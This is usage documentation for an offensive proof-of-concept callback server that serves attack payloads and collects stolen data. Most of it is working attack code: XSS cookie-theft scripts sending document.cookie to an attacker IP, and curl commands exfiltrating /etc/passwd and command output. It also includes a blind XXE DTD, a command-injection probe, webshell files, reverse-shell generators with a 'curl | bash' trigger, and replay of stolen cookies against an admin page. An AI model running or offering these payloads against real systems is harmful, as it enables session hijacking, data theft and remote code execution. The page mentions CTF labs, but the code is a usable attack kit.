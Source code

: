 HTTP Server & Callbacks
========================

Built-in HTTP server for serving payloads and collecting callbacks via a thread-safe queue.

Quick Start
-----------

.. code-block:: bash

   # Start server (binds to 0.0.0.0:8000)
   python -m your_project --server

   # Specify interface and port
   python -m your_project --server --lhost 10.10.14.5 --lport 8080

Output shows all network interfaces:

.. code-block:: text

   ==================================================
   [*] POC Server listening on:
   [+] → http://10.10.14.5:8000 (tun0)
   [...] → http://192.168.1.100:8000 (eth0)
   Serving: /home/user/poc/payloads
   Logs: /home/user/poc/logs/server.ndjson
   Queue: DELETE /queue to pop events
   ==================================================

How It Works
------------

* Serves files from ``payloads/`` directory
* Captures ``cookie`` and ``exfil`` parameters (query or path)
* Logs all requests to ``logs/server.ndjson``
* CORS enabled for XSS callbacks

Sending Data
------------

Cookie Exfiltration
~~~~~~~~~~~~~~~~~~~

.. code-block:: javascript

   // From XSS
   fetch('http://10.10.14.5:8000/?cookie=' + btoa(document.cookie));

Data Exfiltration
~~~~~~~~~~~~~~~~~

.. code-block:: bash

   # File contents
   curl "http://10.10.14.5:8000/?exfil=$(cat /etc/passwd | base64 -w0)"

   # Command output
   curl "http://10.10.14.5:8000/exfil/$(whoami)"

.. code-block:: xml

   <!-- Blind XXE -->
   <!DOCTYPE foo [
     <!ENTITY % file SYSTEM "file:///etc/passwd">
     <!ENTITY % dtd SYSTEM "http://10.10.14.5:8000/xxe/exfil.dtd">
     %dtd;
   ]>

.. code-block:: bash

   # Command injection confirmation
   test; curl http://10.10.14.5:8000/cmdi/confirmed

Retrieving Data
---------------

Use ``server_hooks`` module to retrieve captured data from the queue.

Get Cookie
~~~~~~~~~~

.. code-block:: python

   from your_project.utils.server_hooks import get_cookie
   from your_project.utils.cookie import parse_cookie_string
   import requests

   # Wait for callback
   cookie_str = get_cookie(timeout=30)
   if cookie_str:
       cookies = parse_cookie_string(cookie_str)
       r = requests.get("http://target/admin", cookies=cookies)

Get Exfil Data
~~~~~~~~~~~~~~

.. code-block:: python

   from your_project.utils.server_hooks import get_exfil

   data = get_exfil(timeout=30)
   if data and "root:x:0:0" in data:
       print("[+] Successfully read /etc/passwd!")

Queue Management
~~~~~~~~~~~~~~~~

.. code-block:: python

   from your_project.utils.server_hooks import drain_queue, get_event

   # Clear old events
   drain_queue()

   # Get any event type
   event = get_event(timeout=30, wait=True)
   # Returns: {'type': 'cookie|exfil', 'data': '...', 'timestamp': '...'}

   # Custom server address
   cookie = get_cookie(server='http://192.168.1.100:8080', timeout=30)

Payload Directory
-----------------

Files in ``payloads/`` are automatically served:

.. code-block:: text

   payloads/
   ├── xss/
   │   ├── steal-cookie.js
   │   └── steal-all.js
   ├── xxe/
   │   └── xxe-template.dtd
   └── shells/
       ├── cmd.php
       ├── cmd.jsp
       └── cmd.aspx

Access at: ``http://10.10.14.5:8000/xss/steal-cookie.js``

Generating Payloads
~~~~~~~~~~~~~~~~~~~

Utility modules automatically write payloads to ``payloads/`` for serving.

**Reverse Shells:**

.. code-block:: python

   from your_project.utils.reverse_shells import bash_shell, python_shell, php_shell

   # Generate bash shell → payloads/shells/rev_bash.sh
   path = bash_shell("10.10.14.5", 4444)
   # Returns: "shells/rev_bash.sh"
   # Served at: http://10.10.14.5:8000/shells/rev_bash.sh

   # Generate PHP shell → payloads/shells/rev_php.php
   php_path = php_shell("10.10.14.5", 4444)
   # Served at: http://10.10.14.5:8000/shells/rev_php.php

   # Trigger download on target
   requests.post(target, data={
       "cmd": f"curl http://10.10.14.5:8000/{path} | bash"
   })

**XXE DTD Files:**

.. code-block:: python

   from your_project.utils.xxe import oob_dtd, quick_test

   # Generate DTD → payloads/xxe/xxe.dtd
   dtd_path = oob_dtd("http://10.10.14.5:8000", "/etc/passwd")
   # Returns: "xxe/xxe.dtd"
   # Served at: http://10.10.14.5:8000/xxe/xxe.dtd

   # Quick test generates DTD and returns payload
   payload = quick_test("http://10.10.14.5:8000", "/etc/passwd")
   requests.post(target, data=payload, headers={"Content-Type": "application/xml"})

   # Get exfiltrated data
   from your_project.utils.server_hooks import get_exfil
   data = get_exfil(timeout=30)

Example: XSS Cookie Theft
~~~~~~~~~~~~~~~~~~~~~~~~~

**Inject payload:**

.. code-block:: html

   <script src="http://10.10.14.5:8000/xss/steal-cookie.js"></script>

**Retrieve in exploit:**

.. code-block:: python

   from your_project.utils.server_hooks import get_cookie, drain_queue
   from your_project.utils.cookie import parse_cookie_string

   drain_queue()  # Clear old events

   # Inject XSS (your code here)
   inject_xss(target, "http://10.10.14.5:8000/xss/steal-cookie.js")

   # Wait for callback
   cookie_str = get_cookie(timeout=30)
   cookies = parse_cookie_string(cookie_str)

   # Use stolen cookie
   r = requests.get(f"{target}/admin", cookies=cookies)

Server Logs
-----------

All requests logged to ``logs/server.ndjson``:

.. code-block:: json

   {
     "timestamp": "2025-10-22T13:45:30.123456",
     "client": "192.168.1.100:54321",
     "method": "GET",
     "path": "/cookie/c2Vzc2lvbj1hYmMxMjM=",
     "query": {"source": ["xss"]},
     "headers": {"User-Agent": "...", "Host": "..."},
     "body": ""
   }

.. code-block:: bash

   # View logs
   tail -f logs/server.ndjson | jq .

   # Search for cookies
   grep '"path":"/cookie' logs/server.ndjson | jq .

Event Schema
------------

**Cookie Event:**

.. code-block:: json

   {
     "type": "cookie",
     "data": "session=abc123; token=xyz789",
     "raw": "c2Vzc2lvbj1hYmMxMjM7IHRva2VuPXh5eno3ODk=",
     "timestamp": "2025-10-22T13:45:30.123456"
   }

**Exfil Event:**

.. code-block:: json

   {
     "type": "exfil",
     "data": "/etc/passwd content or XXE output",
     "timestamp": "2025-10-22T13:45:30.123456"
   }

Tips
----

**Clear queue before each test:**

.. code-block:: python

   from your_project.utils.server_hooks import drain_queue
   drain_queue()

**Choose the right interface:**

* Use ``tun0`` IP for HackTheBox/TryHackMe
* Use ``eth0``/``wlan0`` for local network
* Use public IP for internet targets

**Base64 encoding bypasses filters:**

.. code-block:: javascript

   fetch('http://10.10.14.5:8000/?cookie=' + btoa(document.cookie));
